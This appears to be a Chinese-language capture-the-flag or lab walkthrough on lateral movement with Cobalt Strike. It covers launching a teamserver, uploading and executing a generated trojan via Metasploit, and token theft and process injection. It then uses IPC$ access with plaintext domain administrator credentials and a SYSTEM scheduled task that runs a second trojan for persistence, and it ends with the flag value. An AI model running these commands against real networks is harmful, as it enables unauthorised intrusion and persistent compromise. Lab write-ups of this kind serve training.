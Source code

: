 ## 6.CS

### 启动cs

```bash
cd CobaltStrike_4.4_dog/;./teamserver 192.168.28.101 123456
```

### cs开启监听器

> 5555

#### cs生成木马

> x86

#### msf上传cs码

```bash
upload 5555.exe c:/
execute -f c:/5555.exe
```

### 进程注入

令牌窃取，进程注入

> X64,域用户

### ipc$

```bash
shell net use \\192.168.27.110\ipc$ "Admin123$%^" /user:"nisp.com\Administrator"
```

#### flag

```bash
shell type \\192.168.27.110\C$\flag\flag.txt
```

### 代理转发

> 6666

生成，上传木马

### 计划任务

```bash
shell schtasks /create /s 192.168.27.110 /u administrator /p "Admin123$%^" /tn test1 /tr c:/6666.exe /sc onstart /RU System /F

shell schtasks /run /s 192.168.27.110 /u administrator /p "Admin123$%^" /tn test1
```

### flag

```bash
shell type C:\flag\flag.txt
```

> A49Q2Ds5w3